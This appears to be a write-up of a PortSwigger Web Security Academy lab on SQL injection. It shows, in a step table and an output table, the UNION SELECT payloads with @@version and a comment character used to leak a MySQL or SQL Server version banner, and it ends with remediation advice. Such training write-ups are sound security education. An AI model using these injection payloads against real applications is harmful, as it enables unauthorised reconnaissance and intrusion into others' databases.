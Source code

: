 # SQL injection attack – **querying database type & version (MySQL / Microsoft SQL Server)**

![Lab banner – PortSwigger Practitioner level](1.png)

---

## Executive Summary

In the PortSwigger Web Security Academy lab “SQL injection attack: querying the database type and version (MySQL & Microsoft SQL Server),” we showed that an attacker can reveal the exact database version string by appending a crafted `UNION SELECT` clause to the product-filter request.
Because the application blindly concatenates user-supplied text into a `WHERE` clause, we joined the output of `@@version` to the normal product list and forced the database to disclose its own build details.

---

# Description

![Lab banner – PortSwigger Practitioner level](2.png)

---

## Why This Matters to You

* **Precision exploitation:** Version strings map directly to published CVEs—attackers can cherry-pick exploits that match your exact patch level.
* **Evasion planning:** Knowing whether the back-end is MySQL Community, Percona, MariaDB, or Microsoft SQL Server Edition helps attackers anticipate which auditing, encryption, and logging features are present.
* **Recon → privilege escalation:** Version disclosure is a building block in multi-stage intrusions that end in ransomware or large-scale data theft.

---

## Step-by-Step Walk-Through

| # | What we did (payload URL-encoded where needed)                                                      | Intended SQL generated by the app                                             | What actually happens & why                                                                                                                                                           |
| - | --------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1 | **Confirmed vulnerability** – baseline request: `/filter?category=Gifts`                             | `SELECT * FROM someTable WHERE category='Gifts'`                               | Normal product list appears.                                                                                                                                                          |
| 2 | **Counted columns** with `ORDER BY` / `UNION NULL,NULL` – learned there are **2 columns**.          | —                                                                             | Valid `UNION` requires matching column count.                                                                                                                                         |
| 3 | **Found text-compatible columns** by injecting `UNION 'a','b'` – confirmed both return string data. | —                                                                             | Shows where arbitrary text will surface.                                                                                                                                              |
| 4 | **Leaked version string** with<br>`/filter?category=Gifts'/**%20**UNION%20SELECT%20'a',@@version%23` | `SELECT * FROM someTable WHERE category='Gifts' UNION SELECT 'a', @@version#'` | `#` starts a comment in MySQL; everything after is ignored. Page prints the full MySQL/MSSQL banner (e.g., `MySQL 8.0.36-log` or `Microsoft SQL Server 2019 ...`). Lab flags success. |

![Lab banner – PortSwigger Practitioner level](3.png)
> Leaked version string using NULL instead of 'a'

---

## Observable Output

| Test / Payload                | Visible result                     | What it proved                     |
| ----------------------------- | ---------------------------------- | ---------------------------------- |
| Baseline (`category=Gifts`)    | Normal product grid                | Application behaves as intended.   |
| `UNION 'a','b'`               | “a  b” displayed                   | Column count & data types verified |
| `UNION SELECT 'a',@@version#` | Database banner string on the page | **Version disclosure** confirmed   |

---


## Conclusion

With a single `UNION SELECT` payload and the `#` comment character, we extracted the complete MySQL/MSSQL version banner—priceless intelligence for an attacker. Replacing inline SQL with prepared statements and enforcing least-privilege roles will eliminate this exposure.
